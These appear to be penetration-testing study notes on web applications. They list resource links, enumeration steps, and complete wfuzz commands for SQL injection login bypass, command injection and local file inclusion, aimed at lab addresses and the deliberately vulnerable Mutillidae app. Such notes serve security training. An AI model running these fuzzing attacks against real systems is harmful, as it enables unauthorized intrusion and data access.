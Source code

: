 ################
Web Applications
################

* http://www.vulnerablewebapps.org/
* https://docs.google.com/document/d/101EsKlu41ICdeE7mEv189SS8wMtcdXfRtua0ClYjP1M/edit
* https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md
* https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
* https://medium.com/bugbountywriteup/sql-injection-with-load-file-and-into-outfile-c62f7d92c4e2
* https://github.com/dzonerzy/goWAPT
* https://www.rapid7.com/research/report/exploiting-jsos/
* https://github.com/qazbnm456/awesome-web-security

Enumeration
===========

* Run nikto, dirsearch, etc.
* Proxy application in Burp. Add application to scope and run Burp Spider (often discovers "hidden" URLs from source code, etc.)
* Do directory traversal (e.g. if /path/to/file.js exists, visit /path/to and /path as well)

Fuzzing
=======

wfuzz
-----

**Generic**

Use wfuzz with some generic payloads to determine "standard" response attributes (e.g. code, length, number of words, number of lines, etc.)

.. code-block:: none

    wfuzz -c -u 'http://10.0.0.1/path/to/login.php' -d 'username=FUZZ{username}&password=password&login-php-submit-button=Login' -z range,1-10

**SQL Injection**

For login bypass, we want to flag non-200 response codes, and responses which don't contain the login errors. Note that due to some bash weirdness, you need to get creative with the filter value:

.. code-block:: none

    wfuzz -c -u 'http://10.0.0.1/path/to/login.php' -d 'username=FUZZ{username}&password=password&login-php-submit-button=Login' -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt,urlencode --filter="code != 200 or content "\!"~ 'Account does not exist' or content "\!"~ 'Password incorrect'"

For regular SQL injection, we likely want to flag responses which don't include specific error messages

.. code-block:: none

    wfuzz -c -u 'http://192.168.1.76/mutillidae/index.php?page=user-info.php&username=FUZZ{test}&password=&user-info-php-submit-button=View+Account+Details' -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt,urlencode --filter="content "\!"~ 'SQL Syntax' and content "\!"~ '0 records found'"

**Command Injection**

.. code-block:: none

    wfuzz -c -u 'http://192.168.1.76/mutillidae/index.php?page=dns-lookup.php&target_host=FUZZ{test}' -z file,fuzzdb/attack/os-cmd-execution/command-execution-unix.txt,urlencode --filter="content ~ 'uid='"

**LFI**

.. code-block:: none

    wfuzz -c -u 'http://192.168.1.76/mutillidae/index.php?page=FUZZ{arbitrary-file-inclusion.php}' -z file,/usr/share/wordlists/wfuzz/Injections/Traversal.txt,urlencode --filter "lines != 1008"
